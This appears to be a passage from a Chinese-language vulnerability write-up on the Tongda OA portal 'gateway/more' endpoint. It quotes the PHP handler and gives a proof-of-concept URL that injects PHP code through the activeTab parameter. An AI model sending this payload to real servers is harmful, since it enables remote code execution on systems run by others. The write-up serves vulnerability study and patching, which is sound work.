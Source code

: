 ```php
    public function actionMore($id, $module, $activeTab, $curnum, $pagelimit, $keyword)
    {
        Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
        $id = modules\portal\controllers\intval($id);
        $curnum = modules\portal\controllers\intval($curnum);
        $pagelimit = modules\portal\controllers\intval($pagelimit);
        $keyword = modules\portal\controllers\td_filterWords($keyword);

        if (empty($id)) {
            return modules\appdesign\models\AppUtils::error(modules\portal\controllers\_("未指定门户组件"));
        }

        $component = new modules\portal\models\PortalComponent();
        $timetype = "";

        if (!$module) {
            $component = modules\portal\models\PortalComponent::find()->where(array("id" => $id))->one();
            $module = $component->alias;
        }

        $activeTab = ($activeTab ? $activeTab : "");

        if ($module == "video") {
            $activeTab = "More";
        }

        $data = $component->GetData($id, $module, $activeTab, $curnum, $pagelimit, $timetype, "", "", "", "", $keyword);
        $dataBacks = array("status" => 1, "data" => $data);
        $this->dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBacks);
        return $this->dataBack;
    }
```

但是需要注意到这边的 dataBacks 又用了一层 array 来包裹，所以在做括号闭合时，要多加一层括号，poc 如下：

```php
/general/appbuilder/web/portal/gateway/more?activeTab=%e5'.var_dump(111)));/*&id=1&module=Zhidao
```

### 参考文章

[https://cloud.tencent.com/developer/article/2200049](https://cloud.tencent.com/developer/article/2200049)

[https://worktile.com/kb/p/27611](https://worktile.com/kb/p/27611)

[https://mp.weixin.qq.com/s/nOQuqt\_mO0glY-KALc1Xiw](https://mp.weixin.qq.com/s/nOQuqt_mO0glY-KALc1Xiw)
